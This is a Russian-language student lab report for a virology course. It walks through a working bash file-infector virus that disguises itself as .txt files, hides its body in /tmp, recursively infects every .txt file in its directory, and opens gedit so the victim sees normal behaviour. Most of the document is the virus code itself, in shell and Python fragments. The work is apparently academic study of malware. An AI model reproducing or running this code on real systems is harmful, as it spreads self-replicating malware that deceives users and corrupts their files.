 # Лабораторная работа №3

По дисциплине Модели Нарушения Безопасности и Вирусология.

Выполнили:
- Бахир А.Д. группа 7361
- Богович А.Н. группа 7361

Преподаватель:
Савельев М.Ф.

## Задание

1. Для файлов формата txt написать программу, которая преобразовывает текстовые файлы в исполняемые, при этом внешнее отображение должно соответствовать текстовым.
2. Преобразованные файлы, при их запуске, должны открывать текст файла в блокноте при этом находить все файлы формата txt в текущей папке и проводить с ними действия см п1.


## Описание работы

Для того чтобы сделать файлы исполняемыми воспользуемся системой прав Unix. Каждый файл операционной системы имеет свой набор прав для каждой из трёх групп: владелец, группа и "остальные". Для каждой из групп устанавливается набор из трёх бит, указывающих на возможность чтения, записи и исполнения файла в формате `rwx`. 

Если установить файлу права на исполнение, файловые менеджеры могут начать воспринимать его как скрипт и пытаться вместо открытия текстового файла запустить его на исполнение. В частности так делает nautilus, стандартный файловый менеджер в операционной системе ubuntu.

Для корректного запуска интерпретатора в первой строке файла поместим shebang с указанием командной оболочки bash:

```shell
#!/usr/bin/env -S bash 
```

Далее, заполним локальные переменные для дальнейшего использования:

```shell
script_file=$(readlink -f $0)
text_file_dir=$(dirname ${script_file})
script_filename=$(basename ${script_file})
tmp_filename="${script_filename}"
text_file="${text_file_dir}/${tmp_filename}"
```

На время работы файл с вирусом скрывается в виде файла в директории `/tmp` со случайно сгенерированным именем.

```shell
mv -f ${script_file} /tmp/${script_filename}
```

Затем вирус вместо себя создаёт чистый (без вируса) текстовый файл, который можно редактировать. В то же время сохраняет данные, которые были с этом файле перед началом редактирования.

```shell
cat > ${text_file} << EOM
(данные текстового файла)
EOM

old_data=$(cat ${text_file})
```

После этого вирус рекурсивно проверяет собственную директорию на предмет текстовых файлов и заражает их. Уже заражённые файлы пропускаются.

```shell
for filename in $(find . -name '*.txt' | grep -v ${script_filename}) 
do
	if [[ $(cat ${filename} | head -n 1 | head -c 14 | tail -c 3) == "env" ]] 
	then
		continue
	fi
	_data=$(cat ${filename})
	infect_file /tmp/${script_filename} ${filename} "${old_data}" "${_data}"
done
```

Процесс заражения файла выделен в отдельную функцию:

```shell
function infect_file()
{
	source_file=$1
	file=$2
	_old_data=$3
	_new_data=$4
	tmp_infected="/tmp/$(uuidgen)"

	cat ${source_file} > ${tmp_infected}

	python3 -c "_old_data='''${_old_data}''';_new_data='''${_new_data}''';exit(0) if len(_old_data) == 0 else 0;data=open('${tmp_infected}', 'r').read();data=data.replace(_old_data,_new_data);open('${tmp_infected}','w').write(data);"

	cat ${tmp_infected} > ${file}

	chmod +x ${file}
}
```

Сначала сохраняются аргументы функции:
- путь к файлу в котором на данный момент хранится вирус
- путь к заражаемому файлу
- данные перед началом редактирования
- данные после редактирования

Создаётся промежуточная версия вируса в директории `/tmp`, внутри неё заменяется информация текстового файла, а затем содержимое промежуточного файла (уже с вирусом) записывается в тот файл, который нужно заразить. И наконец, заражённому файлу устанавливаются права на исполнение. Теперь заражённый файл является вирусом.

Отдельно процесс замены содержимого файла:

```python
_old_data='''${_old_data}'''
_new_data='''${_new_data}'''
exit(0) if len(_old_data) == 0 else 0
data=open('${tmp_infected}', 'r').read()
data=data.replace(_old_data,_new_data)
open('${tmp_infected}','w').write(data)
```

Возвращаемся к процессу, относящемуся к ходу выполнения вируса. Соседние файлы заражены, вирус спрятан в `/tmp`, а на место вируса подброшен чистый текстовый файл. Откроем файл в текстовом редакторе, чтобы пользователь получил ожидаемое поведение и мог его редактировать. Благодаря тому что вирус подменяет себя временным текстовыми файлом, для пользователя всё будет выглядеть как обычно.

```shell
gedit ${text_file}
```

После того как пользователь закончит работу с файлом, управление вернётся к скрипту. Теперь остаётся только сохранить новую версию файла, и вызвать функцию заражения с необходимыми параметрами.

```shell
new_data=$(cat ${text_file})

infect_file /tmp/${script_filename} ${text_file} "${old_data}" "${new_data}"
```

Теперь тот файл который редактировал пользователь тоже заражён.
